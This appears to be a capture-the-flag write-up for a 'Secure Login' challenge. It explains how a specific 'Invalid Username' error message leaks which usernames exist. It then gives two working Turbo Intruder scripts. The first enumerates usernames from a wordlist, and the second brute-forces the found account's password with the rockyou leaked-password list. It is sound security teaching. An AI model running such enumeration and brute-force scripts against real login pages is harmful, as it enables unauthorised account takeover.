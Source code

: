 # Day 5
Another day means another app! Today's challenge is Secure Login:
> Try and find a way past the login page to get to the secret area.

{F1134442}

I tried putting in `admin/admin` just to see what would happen. 

{F1134440}

This error message is actually poor security practice. Industry standards would return a more generic message like "Invalid Login". By saying specifically, "Invalid Username", the site is allowing us to determine whether or not a username we enter actually exists on the site. 

I wrote a quick script for the Turbo Intruder Burp Suite extension to attempt logging in with all the usernames in a wordlist. It then makes a note if it can find one that returns a page that doesn't contain the text "Invalid Username":

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for word in open('C:/Users/user/dev/SecLists/Usernames/Names/names.txt'):
        engine.queue(target.req, word.strip())


def handleResponse(req, interesting):
    if 'Invalid Username' not in req.response:
        table.add(req)
```

The username `access` returned a page without `Invalid Username` and with an `Invalid Password` message instead. Now that we know a real username, we can attack the password field. This time around, we will look for a page that doesn't respond with "Invalid Password". Turbo Intruder script:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for word in open('C:/Users/user/dev/SecLists/Passwords/Leaked-Databases/rockyou-50.txt'):
        engine.queue(target.req, word.strip())


def handleResponse(req, interesting):
    if 'Invalid Password' not in req.response:
        table.add(req)

```
